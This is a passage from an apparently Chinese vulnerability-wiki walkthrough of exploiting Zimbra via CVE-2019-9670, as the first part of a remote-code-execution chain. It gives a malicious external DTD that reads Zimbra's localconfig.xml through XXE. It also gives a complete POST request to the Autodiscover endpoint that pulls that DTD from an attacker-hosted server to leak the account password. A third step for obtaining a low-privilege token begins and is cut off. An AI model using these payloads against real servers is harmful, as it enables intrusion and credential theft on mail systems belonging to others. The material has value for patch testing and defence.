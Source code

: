 ### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
    <!ENTITY % start "<![CDATA["> 
    <!ENTITY % end "]]>">  
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 

> POST请求包如下：

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE Autodiscover [  
            <!ENTITY % dtd SYSTEM "http://www.0-sec.org/dtd">  
            %dtd;  
            %all;  
            ]>  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">  
        <Request>  
            <EMailAddress>aaaaa</EMailAddress>  
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>  
        </Request>  
    </Autodiscover>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId27.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

    POST /service/soap HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 467  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  
